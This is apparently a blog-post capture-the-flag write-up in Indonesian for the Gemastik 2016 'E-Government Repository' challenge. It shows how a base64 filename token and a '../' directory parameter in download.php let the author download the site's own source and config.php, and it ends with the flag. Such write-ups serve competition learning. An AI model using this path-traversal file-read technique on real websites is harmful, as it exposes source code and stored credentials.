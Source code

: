 ```yaml
---
layout: post
title: "Writeup Gemastik 2016 : E-Government Repository - 75"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
category: gemastik
tags: [gemastik,ctf]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![E-Government Repository](/images/egovernment-repository.png)


### Solusi :

Vulnerability terletak pada file download.php yang memungkinkan kita untuk mendownload file .php nya sendiri.
untuk mendownload file di butuhkan 3 parameter.

`file=NAMAFILE` , `token=BASE64(NAMAFILE)` , `cat=DIREKTORI`

jadi untuk mendownload file download.php kita sesuaikan 3 parameter tersebut.

[https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=download.php&token=ZG93bmxvYWQucGhw&cat=../](https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=download.php&token=ZG93bmxvYWQucGhw&cat=../)

kemudian download file `config.php`

[https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=config.php&token=Y29uZmlnLnBocA==&cat=../](https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=config.php&token=Y29uZmlnLnBocA==&cat=../)

**Flag : ** `GEMASTIK{The_Panama_Papers_are_the_largest_data_leak_and_caused_by_LFI}`



